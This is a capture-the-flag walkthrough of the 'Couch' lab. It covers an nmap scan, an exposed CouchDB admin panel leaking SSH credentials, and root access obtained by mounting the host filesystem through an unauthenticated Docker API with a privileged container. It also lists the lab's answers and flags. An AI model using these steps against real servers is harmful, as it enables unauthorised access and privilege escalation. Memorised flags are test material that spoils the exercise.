

# Couch

* IP = 10.10.178.121

## Questions/Tasks:

### Nmap Scan Results:

* Scanning for standard 1000 ports only gave us the SSH service as the scan result.
* So I did some googling on **Couch database** by Apache(which is also suggested by the challenge name)
* Hence found this out:<br>

* Tried to scan that particular port with Nmap, and Bingo!! We found a valid open port...
* `nmap -sC -sV 10.10.178.121 -p22,5984`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-01 00:05 IST
Nmap scan report for 10.10.178.121
Host is up (0.56s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

1. Scan the machine. How many ports are open?

**Ans-2**

2. What is the database management system installed on the server?

**Ans-Couchdb**

3. What port is the database management system running on?

**Ans-5984**

4. What is the version of the management system installed on the server?

**Ans-1.6.1**

* Next we visit the <a href="https://docs.couchdb.org/en/1.6.1/api/server/common.html">CouchDb docs</a>, where searching for administration gives us the `_utils` directory.<br>


5. What is the path for the web administration tool for this database management system?

**Ans-_utils**

* Searching for all databases gives us `_all_dbs`:<br>


6. What is the path to list all databases in the web browser of the database management system?

**Ans-_all_dbs**

* Visit the administration page(http://IP:5984/_utils) in your browser and you'll be brought here:<br>

* Now go to the `secret` database and find the *user:pass* there:<br>


7. What are the credentials found in the web administration tool?

**Ans-atena:t4qfzcc4qN##**

* SSH into the server using *atena* as username and *t4qfzcc4qN##* as password:<br>

* The user.txt is present in there itself...

8. Compromise the machine and locate user.txt

**Ans-THM{1ns3cure_couchdb}**

* Firstly we can check for sudo permissions with `sudo -l`, but no luck, we can't run sudo as atena🥲
* Next we check for SUID binaries with `find / -perm -4000 -type f 2>/dev/null` but no interesting binaries found too🤔
* Checking the `.bash_history` file, we find this:<br>

* Now look carefully docker is running an alpine image which contains the root.txt since it was mounted as a volume
* Hence we can run the same command to get into the docker container and probably find root.txt.
* Run `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
* Where,
```
-H => the host to run a container
run is the command
--rm => remove the container if it exists and give a fresh start
-it => interactive (i.e. you'll get a shell to interact with the container)
--privileged => Give extended privileges to this container, given access to all devices
/:/mnt will mount / of filesystem to the /mnt of container's filesystem
alpine is the imagename
```
* Hence you'll get an interactive root shell inside the container with the main filesystem mounted to /mnt of container filesystem.
* Find the flag at /mnt/root/root.txt

9. Escalate privileges and obtain root.txt

**Ans-THM{RCE_us1ng_Docker_API}**
